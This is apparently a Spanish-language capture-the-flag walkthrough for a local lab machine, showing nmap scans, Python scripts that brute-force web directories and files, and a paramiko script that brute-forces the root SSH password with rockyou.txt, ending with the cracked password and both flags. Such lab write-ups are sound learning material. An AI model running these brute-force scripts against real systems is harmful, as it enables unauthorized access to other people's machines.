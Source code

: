 Buscamos puertos tcp activos.

sudo nmap -sS -sV -O -p- 192.168.56.102 -oN tcp                                                                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
Nmap scan report for 192.168.56.102
Host is up (0.00075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop


Buscamos puertos Udp activos

sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN udp                                                                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
Nmap scan report for 192.168.56.102
Host is up (0.00067s latency).
All 100 scanned ports on 192.168.56.102 are in ignored states.
Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

Usamos Curl...
curl -v http://192.168.56.

* Trying 192.168.56.102:80...
* Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx
< Date: Mon, 05 Dec 2022 20:30:15 GMT
< Content-Type: text/html
< Content-Length: 57
< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
< Connection: keep-alive
< ETag: "5f678373-39"
< Accept-Ranges: bytes
< 

Dont Overthink. Really, Its simple.
        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

Buscamos directorios mediante fuerza bruta con Python y requests.

'''python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
'''
Salida:
[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
'''python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
'''
Salida:
[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
'''python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
'''
Salida:
.
.
.
.
[-] root: fernanda
[-] root: westlife
[-] root: blondie
[-] root: sasuke
[-] root: smiley
[-] root: jackson
[+] root: simple

El password es 'simple' para el usuario 'root'

id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
Flag user:HMV665sXzDS
Flag root:HMVtyr543FG
